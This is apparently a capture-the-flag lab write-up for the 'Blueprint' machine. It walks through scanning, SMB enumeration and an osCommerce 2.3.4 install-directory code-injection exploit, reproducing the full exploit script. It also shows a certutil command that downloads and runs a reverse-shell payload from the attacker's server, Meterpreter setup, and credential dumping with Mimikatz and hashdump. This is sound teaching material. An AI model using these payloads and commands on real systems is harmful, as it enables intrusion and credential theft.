

# Blueprint

## Introduction



Add the IP to `/etc/hosts`

```bash
10.48.186.155    blueprint.thm
```

## Port Scan

```bash
└─$ rustscan -a blueprint.thm --ulimit 5000 -- -A -oN nmap.log

...

Scanning blueprint.thm (10.48.186.155) [11 ports]
Discovered open port 80/tcp on 10.48.186.155
Discovered open port 443/tcp on 10.48.186.155
Discovered open port 445/tcp on 10.48.186.155
Discovered open port 49160/tcp on 10.48.186.155
Discovered open port 135/tcp on 10.48.186.155
Discovered open port 139/tcp on 10.48.186.155
Discovered open port 8080/tcp on 10.48.186.155
Discovered open port 3306/tcp on 10.48.186.155
Discovered open port 49153/tcp on 10.48.186.155
Discovered open port 49152/tcp on 10.48.186.155
Discovered open port 49154/tcp on 10.48.186.155

...

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 126 Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Supported Methods: OPTIONS
135/tcp   open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 126 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 126 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Supported Methods: GET HEAD
| tls-alpn: 
|_  http/1.1
|_http-title: Bad request!
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:     a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1:   b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| SHA-256: 0169 7338 0c0f 1df0 0bd9 593e d8d5 efa3 706c d6df 7993 f614 1272 b805 22ac dd23
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds syn-ack ttl 126 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 126 MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp  open  http         syn-ack ttl 126 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
|_
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack ttl 126 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (96%), Microsoft Windows 7 or 8.1 R1 or Server 2008 R2 SP1 (95%), Microsoft Windows 7 or 8.1 R1 (95%), Microsoft Windows 8.1 (94%), Microsoft Windows Server 2012 or 2012 R2 (93%), Microsoft Windows 10 (92%), Microsoft Windows 10 1511 - 1607 (92%), Microsoft Windows 10 1607 (92%), Microsoft Windows Server 2008 R2 SP1 or Windows 7 SP1 (92%), Microsoft Windows Server 2008 SP1 (92%)
No exact OS matches for host (test conditions non-ideal).

```

The port scan reveals:

- HTTP/HTTPS ports: 80, 443, 8080
- SMB ports: 135, 443
- MYSQL (Maria DB) port: 3306
- RPC ports: 49152-49154, 49160

## SMB

The SMB allows anonymous login

```bash
└─$ smbmap -H blueprint.thm -u guest -p ''

...

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.48.186.155:445       Name: blueprint.thm             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Users                                                   READ ONLY
        Windows                                                 NO ACCESS
[*] Closed 1 connections                  
```

There is a interesting readable share called Users, but it reveals nothing. 

```bash
└─$ smbmap -H blueprint.thm -u guest -p '' -r 'Users'

...

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
[!] Connection error on 10.48.186.155                                                                                        
                                                                                                                             
[+] IP: 10.48.186.155:445       Name: blueprint.thm             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Users                                                   READ ONLY
        ./Users
        dw--w--w--                0 Fri Apr 12 06:36:40 2019    .
        dw--w--w--                0 Fri Apr 12 06:36:40 2019    ..
        dw--w--w--                0 Mon Jan 16 06:38:59 2017    Default
        fr--r--r--              174 Mon Jan 16 06:28:56 2017    desktop.ini
        dw--w--w--                0 Mon Jan 16 06:38:59 2017    Public
        Windows                                                 NO ACCESS
[*] Closed 1 connections         
```

## HTTP (Port 80)

Port 80 has nothing


Not even webpage fuzzing

```bash
└─$ feroxbuster -u http://blueprint.thm -w /usr/share/wordlists/dirb/common.txt 
                                                                                                                                                                                                                                            
...

───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://blueprint.thm/
 🚩  In-Scope Url          │ blueprint.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[####################] - 68s     4614/4614    0s      found:0       errors:7      
[####################] - 68s     4614/4614    68/s    http://blueprint.thm/    
```

So we need to move on to other HTTP/HTTPS port

## HTTP/ HTTPS (Port 443 and Port 8080)

In port 443, we see the self-signed SSL certificate


There is only one directory, and that is `osommerce-2.3.4`


If we search up in SearchSploit, we will found that this particular version contains many vulnerabilities.

```bash
└─$ searchsploit oscommerce 2.3.4                                                                                                                                                                                                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                                                                                                                                               | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                                                                                                                                             | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                                                                                                                                          | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                                                                                                                                           | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                                                                                                                                              | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                                                                                                                                                | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                                                                                                                                                | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                                                                                                                                                            | php/webapps/50128.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We can basically confirm this is the place for us to gain our foothold.

The `catalog` page at first seems to have many items and URLs to interact with, but all of them are invalid (404).


With this, we can try each of the exploits in the SearchSploit Result

## RCE via CSRF in Languages

In the first result of SeachSploit (`34582.txt`), it suggest that there is a RCE that in `english.php`

> 
> 
> - RCE via CSRF -> Define Languages
> 
> It is able to change content of specific file in 'define languages' tab, we're gonna use default english language, and so default files path. File MUST be writable. Value stands for `english.php` default content; as you can notice, `passthru` function is being included.
> 
> `localhost/osc/oscommerce-2.3.4/catalog/includes/languages/english.php?cmd=uname -a`
> 

However it is blocked and we cannot exploit


## RCE with the `install` directory

### Introduction

If we look at the later results (`44374.py` and `50128.py`), we will see that the `install` directory can be exploited with `config.php`

```bash
# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.
																																											~Comments from 44374.py
```

We also have access to the `install` directory and able to discover the details of the installation


Here is the original [44374.py](https://www.exploit-db.com/exploits/44374) for the exploitation

```bash
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.

import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"
target_url = "http://localhost/oscommerce-2.3.4.1/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

```

### POC

We can try to change the URL and execute this and we will find that `system()` is disabled

As an alternative, we can use `passthru` instead and perform a simple PoC first

```bash
...

payload = '\');'
payload += 'echo passthru("whoami");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data, verify=False)

...
```

In the above, I also add `verify=False` because I am exploiting against port 443 (with the self-signed certificate).

With everything ready, we can launch the exploit

```bash
└─$ python3 44374.py                                                                                                                                                                                                                        
/usr/lib/python3/dist-packages/urllib3/connectionpool.py:1097: InsecureRequestWarning: Unverified HTTPS request is being made to host 'blueprint.thm'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#tls-warnings
  warnings.warn(
[+] Successfully launched the exploit. Open the following URL to execute your code

https://blueprint.thm/oscommerce-2.3.4/catalog/install/includes/configure.php
```

When we navigate to `configure.php`, we will see the result of the `whoami` command: `NT Authority/ SYSTEM`


### Creating Reverse Shell using the Metasploit Framework

To kickstart, we can generate the payload using `msfvenom`. An EXE file will do the job

```bash
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

Then, use the `multi/handler` in `msfconsole` with the right configuration, and run the handler

```bash
msf > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > setg LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf exploit(multi/handler) > show options

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.129.139  yes       The listen address (an interface may be specified)
   LPORT     1234             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

```

After that, we will modify `44374.py` and use `certutil.exe` to download the EXE payload from the Python HTTP server and execute it. A detailed explanation can be found [here](https://www.hackingarticles.in/windows-for-pentester-certutil/)

```bash
payload = '\');'
payload += 'passthru("cmd.exe /C certutil.exe -urlcache -split -f http://192.168.129.139:8000/shell.exe shell.exe & shell.exe");' 
payload += '/*'
```

Same as before, we run the Python exploit and access to `config.php` afterwards.

When we revisit the `msfconsole`, we will see a session is established

```bash
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.129.139:1234 
[*] Sending stage (199238 bytes) to 10.48.186.155
[*] Meterpreter session 1 opened (192.168.129.139:1234 -> 10.48.186.155:50095) at 2026-09-01 14:57:54 +0800

```

We can run `sysinfo` successfully

```bash
meterpreter > sysinfo
Computer        : BLUEPRINT
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

And create a shell

```bash
meterpreter > shell
Process 6636 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>whoami
whoami
nt authority\system
```

## Harvesting the hashes

To obtain the hashes, we can use [Mimikatz](https://github.com/ParrotSec/mimikatz).

First, we download the Mimikatz from the Python server

```bash
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>certutil.exe -urlcache -split -f http://192.168.129.139:8000/mimikatz.exe mimikatz.exe
certutil.exe -urlcache -split -f http://192.168.129.139:8000/mimikatz.exe mimikatz.exe
****  Online  ****
  000000  ...
  0f2f08
CertUtil: -URLCache command completed successfully.
```

Then, we use `lsadump::sam`  to dump all the hashes from SAM


Alternatively, because we have already establish the <eterpreter session, we can use the `hashdump` command

```bash
meterpreter > hashdump
Administrator:500:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Lab:1000:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx::
```

After getting the hashes, obtain the plaintext password


As for the root flag, because we are already SYSTEM, we have the permission to read it under `C:\Users\Administrator\Desktop`
